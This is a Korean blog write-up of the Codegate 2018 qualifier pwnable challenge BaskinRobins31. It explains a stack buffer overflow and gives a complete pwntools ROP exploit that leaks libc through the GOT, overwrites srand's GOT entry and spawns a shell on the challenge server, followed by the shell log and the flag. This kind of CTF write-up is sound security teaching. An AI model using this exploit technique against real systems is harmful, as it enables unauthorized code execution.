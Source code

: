 ```yaml
---
layout: post
title: "Codegate 2018 Quals BaskinRobins31"
img: /img/codegate2018/BaskinRobins31/postimg.png
date: 2018-03-14 19:54:05 +0900
description: Codegate 2018 Quals Pwnable BaskinRobins31 Write-up
categories: Codegate Pwnable Writeup
---
```

# Codegate 2018 Prequal Pwnable BaskinRobins31

## 개요

```
BaskinRobins31 - 217pts (Pwn)
nc ch41l3ng3s.codegate.kr 3131
Solve 30
```

[Download](https://s3.ap-northeast-2.amazonaws.com/codegate2018/4b9a5f57118bcfb6db1d0991af9e4159)

> 다운로드가 안된다면 [이곳](https://github.com/sunghun7511/Writeup/blob/master/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31/4b9a5f57118bcfb6db1d0991af9e4159)에서 해주세요!

(`Junior` 으로 참가하여서 일반부와는 문제의 점수가 다를 수 있습니다.)

## 풀이

먼저 받은 파일의 압축을 풀고 나니 `BaskinRobins31` 라는 바이너리가 있었다.

IDA 헥스레이로 열어 분석을 하였다.

이 바이너리는 한 때 유행했었던 31게임이 코딩되어 있었다.

취약점은 사용자의 턴에 숫자를 입력받기 위해 호출하는 `your_turn` 함수 안에서 쉽게 찾을 수 있었다.

![source](https://github.com/sunghun7511/Writeup/raw/master/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31/source.png)

`s` 변수는 `0xA0` 만큼의 공간이지만, 매우 넉넉하게 `0x190` 만큼을 입력받는다.

간단하게 64비트 `GOT Overwrite ROP` 페이로드를 짜면 된다.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

심지어 `checksec`를 통해 보호기법들을 확인해보면 카나리도 없다.

`bss` 영역에 `/bin/sh\x00` 문자열을 넣어놓고, `srand` 함수의 `GOT`를 덮어썼다.

(대회 초반에 긴장해서 32비트처럼 풀다가 안돼서 고생좀 했다 ㅋㅋㅋ;;)

립씨 릭을 해봤더니 서버의 립씨는 `libc6_2.23-0ubuntu9_amd64` 였다.

```python
from pwn import *

context.arch = "amd64"
# context.log_level = "DEBUG"

e = ELF("./BaskinRobins31")

isRemote = True

if isRemote:
    p = remote("ch41l3ng3s.codegate.kr", 3131)
else:
    p = process("./BaskinRobins31")
    attach(p, "b *0x0000000000400979\nc")

    raw_input("wait..")

p.recvuntil("### The one that take the last match win ###\n")

read_got = 0x0
pppr = next(e.search(asm("pop rdi; pop rsi; pop rdx; ret")))
pr = next(e.search(asm("pop rdi; ret")))

payload = ""

payload += "4\x00" + "A"*0xB6

payload += flat(pppr, 0x0, e.bss(), 0x8, e.plt["read"])
payload += flat(pr, e.got["puts"], e.plt["puts"])
payload += flat(pppr, 0x0, e.got["srand"], 0x8, e.plt["read"])
payload += flat(pr, e.bss(), e.plt["srand"])

p.sendlineafter("? (1-3)\n", payload)

p.recvuntil("rules...:( \n")

p.send("/bin/sh\x00")

recv = p.recv()[:-1]
puts_got = u64(recv + "\x00"*(8-len(recv)))
print("[*] puts_got is " + hex(puts_got))

# libc6_2.23-0ubuntu9_amd64
p.send(p64(puts_got - 0x6f690 + 0x45390))

p.interactive()
```

이를 실행하면 리모트 환경에서도 쉘이 제대로 따졌다.

```
shgroup@ubuntu:/mnt/hgfs/Writeup/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31$ python solve.py 
[*] '/mnt/hgfs/Writeup/ctf/codegate/2018-Prequal/Pwnable/BaskinRobins31/BaskinRobins31'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[*] puts_got is 0x7f588403a690
[*] Switching to interactive mode
$ ls
BaskinRobins31
flag
$ cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
$  
```

## Flag

`The Korean name of "Puss in boots" is "My mom is an alien"`